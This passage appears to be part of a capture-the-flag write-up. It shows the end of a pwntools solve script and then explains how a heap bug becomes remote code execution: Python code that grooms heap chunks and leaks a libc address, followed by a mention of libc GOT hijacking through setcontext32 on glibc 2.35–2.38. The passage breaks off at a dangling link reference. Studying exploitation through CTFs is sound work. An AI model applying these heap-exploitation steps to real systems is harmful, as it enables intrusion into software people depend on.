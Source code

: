 ```python
    print_notes(2)
    print(r.readn(2000))
    r.readall()
    r.interactive()

if __name__ == "__main__":
    main()

```

# RCE

Even though we got the flag we can utilize this bug fully to get RCE.

From the challenge we know how to leak from heap, therefore we can use freed chunk into unsorted bin to leak libc address. This is basically the same as in original challenge, however we need to allocate few more chunks:

```python
    new(0x15, b"A"*5)
    new(0x508-0x4, b"B"*5)
    new(0x18-0x4, b'HOOK')
    new(0x28-0x4, b"VICTIM")
    new(0x518-0x4, b'LEAK')
    new(0x18-0x4, b"GUARD")

    wait_for_shas(5, b'71')

    delete(4)

    new(0x508-0x4-0x10, b"DDDD"*50)

    new(0x28-0x4, p64(0)+p64(0x100)+p64(0x1337)+p64(0x1000))
    delete(3)
    print_notes(4)

    r.readuntil(b"), ")
    leaks = b""
    while len(leaks) < 0x100:
        leaks += r.recv(0x100 - len(leaks))
    leaks = unpack_many(leaks)
    libc.address = leaks[0x10] - 0x21ace0
    print(hex(libc.address))
```

Given we have libc leak, we could leak stack, find offset to function return and then put rop chain there.

Instead of that we can utilize Libc GOT Hijacking(glibc >2.35 & glibc <=2.38)
<br>aka. Glibc is FULL RELRO by default for glibc2.39

The exploit is based on setcontext32. There is useful link to make these payloads shorter:
